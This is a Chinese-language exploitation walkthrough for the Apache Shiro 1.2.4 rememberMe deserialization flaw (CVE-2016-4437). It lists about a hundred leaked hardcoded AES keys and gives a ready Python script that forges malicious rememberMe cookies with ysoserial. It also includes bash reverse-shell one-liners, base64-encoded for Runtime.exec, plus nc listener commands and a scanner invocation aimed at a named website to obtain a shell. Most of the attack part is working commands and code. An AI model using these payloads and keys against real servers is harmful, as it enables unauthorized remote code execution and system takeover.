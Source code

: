 （CVE-2016-4437）Apache Shiro 1.2.4 反序列化漏洞
================================================

一、漏洞简介
------------

Apache
shiro默认使用了`CookieRememberMeManager`，其处理cookie的流程是：得到`rememberMe的cookie值`\--\>`Base64解码`\--\>`AES解密`\--\>`反序列化`。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

二、漏洞影响
------------

Apache Shiro \<=1.2.4

三、复现过程
------------

### 收集到的key

    kPH+bIxk5D2deZiIxcaaaA==
    4AvVhmFLUs0KTA3Kprsdag==
    Z3VucwAAAAAAAAAAAAAAAA==
    fCq+/xW488hMTCD+cmJ3aQ==
    0AvVhmFLUs0KTA3Kprsdag==
    1AvVhdsgUs0FSA3SDFAdag==
    1QWLxg+NYmxraMoxAXu/Iw==
    25BsmdYwjnfcWmnhAciDDg==
    2AvVhdsgUs0FSA3SDFAdag==
    3AvVhmFLUs0KTA3Kprsdag==
    3JvYhmBLUs0ETA5Kprsdag==
    r0e3c16IdVkouZgk1TKVMg==
    5aaC5qKm5oqA5pyvAAAAAA==
    5AvVhmFLUs0KTA3Kprsdag==
    6AvVhmFLUs0KTA3Kprsdag==
    6NfXkC7YVCV5DASIrEm1Rg==
    6ZmI6I2j5Y+R5aSn5ZOlAA==
    cmVtZW1iZXJNZQAAAAAAAA==
    7AvVhmFLUs0KTA3Kprsdag==
    8AvVhmFLUs0KTA3Kprsdag==
    8BvVhmFLUs0KTA3Kprsdag==
    9AvVhmFLUs0KTA3Kprsdag==
    OUHYQzxQ/W9e/UjiAGu6rg==
    a3dvbmcAAAAAAAAAAAAAAA==
    aU1pcmFjbGVpTWlyYWNsZQ==
    bWljcm9zAAAAAAAAAAAAAA==
    bWluZS1hc3NldC1rZXk6QQ==
    bXRvbnMAAAAAAAAAAAAAAA==
    ZUdsaGJuSmxibVI2ZHc9PQ==
    wGiHplamyXlVB11UXWol8g==
    U3ByaW5nQmxhZGUAAAAAAA==
    MTIzNDU2Nzg5MGFiY2RlZg==
    L7RioUULEFhRyxM7a2R/Yg==
    a2VlcE9uR29pbmdBbmRGaQ==
    WcfHGU25gNnTxTlmJMeSpw==
    OY//C4rhfwNxCQAQCrQQ1Q==
    5J7bIJIV0LQSN3c9LPitBQ==
    f/SY5TIve5WWzT4aQlABJA==
    bya2HkYo57u6fWh5theAWw==
    WuB+y2gcHRnY2Lg9+Aqmqg==
    kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
    3qDVdLawoIr1xFd6ietnwg==
    ZWvohmPdUsAWT3=KpPqda
    YI1+nBV//m7ELrIyDHm6DQ==
    6Zm+6I2j5Y+R5aS+5ZOlAA==
    2A2V+RFLUs+eTA3Kpr+dag==
    6ZmI6I2j3Y+R1aSn5BOlAA==
    SkZpbmFsQmxhZGUAAAAAAA==
    2cVtiE83c4lIrELJwKGJUw==
    fsHspZw/92PrS3XrPW+vxw==
    XTx6CKLo/SdSgub+OPHSrw==
    sHdIjUN6tzhl8xZMG3ULCQ==
    O4pdf+7e+mZe8NyxMTPJmQ==
    HWrBltGvEZc14h9VpMvZWw==
    rPNqM6uKFCyaL10AK51UkQ==
    Y1JxNSPXVwMkyvES/kJGeQ==
    lT2UvDUmQwewm6mMoiw4Ig==
    MPdCMZ9urzEA50JDlDYYDg==
    xVmmoltfpb8tTceuT5R7Bw==
    c+3hFGPjbgzGdrC+MHgoRQ==
    ClLk69oNcA3m+s0jIMIkpg==
    Bf7MfkNR0axGGptozrebag==
    1tC/xrDYs8ey+sa3emtiYw==
    ZmFsYWRvLnh5ei5zaGlybw==
    cGhyYWNrY3RmREUhfiMkZA==
    IduElDUpDDXE677ZkhhKnQ==
    yeAAo1E8BOeAYfBlm4NG9Q==
    cGljYXMAAAAAAAAAAAAAAA==
    2itfW92XazYRi5ltW0M2yA==
    XgGkgqGqYrix9lI6vxcrRw==
    ertVhmFLUs0KTA3Kprsdag==
    5AvVhmFLUS0ATA4Kprsdag==
    s0KTA3mFLUprK4AvVhsdag==
    hBlzKg78ajaZuTE0VLzDDg==
    9FvVhtFLUs0KnA3Kprsdyg==
    d2ViUmVtZW1iZXJNZUtleQ==
    yNeUgSzL/CfiWw1GALg6Ag==
    NGk/3cQ6F5/UNPRh8LpMIg==
    4BvVhmFLUs0KTA3Kprsdag==
    MzVeSkYyWTI2OFVLZjRzZg==
    CrownKey==a12d/dakdad
    empodDEyMwAAAAAAAAAAAA==
    A7UzJgh1+EWj5oBFi+mSgw==
    YTM0NZomIzI2OTsmIzM0NTueYQ==
    c2hpcm9fYmF0aXMzMgAAAA==
    i45FVt72K2kLgvFrJtoZRw==
    U3BAbW5nQmxhZGUAAAAAAA==
    ZnJlc2h6Y24xMjM0NTY3OA==
    Jt3C93kMR9D5e8QzwfsiMw==
    MTIzNDU2NzgxMjM0NTY3OA==
    vXP33AonIp9bFwGl7aT7rA==
    V2hhdCBUaGUgSGVsbAAAAA==
    Z3h6eWd4enklMjElMjElMjE=
    Q01TX0JGTFlLRVlfMjAxOQ==
    ZAvph3dsQs0FSL3SDFAdag==
    Is9zJ3pzNh2cgTHB4ua3+Q==
    NsZXjXVklWPZwOfkvk6kUA==
    GAevYnznvgNCURavBhCr1w==
    66v1O8keKNV3TTcGPK1wzg==
    SDKOLKn2J1j/2BHjeZwAoQ==

### bash 转码地址

##### http://www.jackson-t.ca/runtime-exec-payloads.html

    bash -i >& /dev/tcp/127.0.0.1/1234 0>&1

1.png

姿势一
------

### 在vps上开启rmi注册表服务

    java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'

4.png

### 生成payload

    python exploit.py vps:1099

5.png**exploit.py**

    import sys
    import uuid
    import base64
    import subprocess
    from Crypto.Cipher import AES
    def encode_rememberme(command):
        popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
        BS = AES.block_size
        pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
        key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
        iv = uuid.uuid4().bytes
        encryptor = AES.new(key, AES.MODE_CBC, iv)
        file_body = pad(popen.stdout.read())
        base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
        return base64_ciphertext


    if __name__ == '__main__':
        payload = encode_rememberme(sys.argv[1])    
    print "rememberMe={0}".format(payload.decode())

### nc监听

    nc -lvvp 8888

### 使用burp发送生成好的payload

6.png

### 获取到shell

7.png

姿势二 【实战测试中，可能会有部分网站无法成功】
-----------------------------------------------

### poc

##### https://github.com/ianxtianxt/ShiroScan

**首先我们在服务器中进行监听**

    nc -lvvp 1234

**执行poc进行反弹shell**

    python3 shiro.py https://www.0-sec.org "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"

2.png

**获取到shell**3.png
